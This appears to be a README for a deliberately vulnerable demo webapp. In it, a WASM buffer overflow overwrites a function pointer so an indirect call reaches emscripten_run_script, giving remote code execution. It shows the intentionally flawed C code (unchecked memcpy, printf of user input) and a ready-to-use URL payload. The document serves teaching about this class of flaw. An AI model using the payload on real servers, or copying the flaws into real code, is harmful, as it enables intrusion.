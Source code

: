 # Indirect Call Redirection -> RCE

This webapp uses a WASM with a buffer overflow vulnerability that allows you to overwrite a function pointer used in an indirect call. Indirect calls in WASM are not subject to the same checks that direct function calls are, so one can redirect to an arbitrary function, such as `emscripten_run_script`, to achieve arbitrary code execution. Here, an attacker can thus achieve remote code execution.

## Vulnerability

WASM:
```c
...
typedef struct str_struct {
    char msg[64];              //64 bytes
    uint16_t msg_len;          //2 + 2 bytes
    void (*change)(char *);    //4 bytes
} str_t;
...
char* trigger(str_t *s) {
    s->change(s->msg);
    return s->msg;
}

void setMsg(str_t *s, char *msg, int n) {
    printf(msg);
    memcpy(&(s->msg), msg, n); //Buffer Overflow Possibility if n > 64
}

EMSCRIPTEN_KEEPALIVE
char* execute(char *msg, int n, int m) {
    str_t s;
    setMethod(&s, m);
    setMsg(&s, msg, n);
    return trigger(&s);
}
...
```

Javascript:
```javascript
...
const msg = decodeURIComponent(req.query.msg);
const n = Module.lengthBytesUTF8(msg);
...
res.send(Module.UTF8ToString(Module._execute(msgPtr, n, m))); //Called with n=len(msg)
...
```

Since `n` is set to the length of the incoming msg field, a message that is too long can result in `memcpy(&(s->msg), msg, n);` overwriting the function pointer `change`. This function pointer is then used in an indirect call on user controlled data `s->change(s->msg);`, allowing for execution of arbitrary functions on arbitrary data. One particularly powerful function that can be called is `emscripten_run_script`, which takes arbitrary javascript as input and executes it.

## Run

```
npm install
node server.js
```

You should see the address to `emscripten_run_script` printed on the console for demonstration purposes. Note this will not change across runs, as there is no ASLR in WASM.

The following payload works to achieve arbitrary RCE:

```console.log(%27>>>Server%20side%20code%20execution!!%27);//0123456789012345679%03%00%00%00```

Replace the last 4 bytes with the appropriate address printed at the start.
